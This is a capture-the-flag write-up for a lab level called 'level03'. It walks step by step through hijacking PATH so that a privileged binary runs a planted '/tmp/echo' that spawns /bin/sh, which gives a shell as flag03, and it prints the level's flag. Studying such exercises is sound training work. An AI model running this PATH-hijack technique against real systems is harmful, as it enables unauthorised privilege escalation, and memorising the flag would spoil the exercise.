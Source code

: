 # level03

It is possible to run almost any executable with elevated privileges in this exercise, I chose sh as it permits pretty much anything

1. get level03  (from an external device)

```sh
scp -P 4242 level03@<host>:level03 level03
```

2. Decompile binary, see that it runs as flag03

```shell
/opt/retdec/bin/retdec-decompiler.py level03
```

3. Exploit env vars usage by changing $PATH

```shell
PATH=/tmp:$PATH
```

4. Create an exploit binary to be executed by the original binary

```shell
echo /bin/sh > /tmp/echo
```

```shell
chmod +x /tmp/echo
```

5. Execute the original binary and retrieve flag

```shell
./level03
```

6. (optional) prove that we operate as flag03

```shell
whoami
```

7. pwn the flag

```shell
getflag
```

gives flag: `qi0maab88jeaj46qoumi7maus`
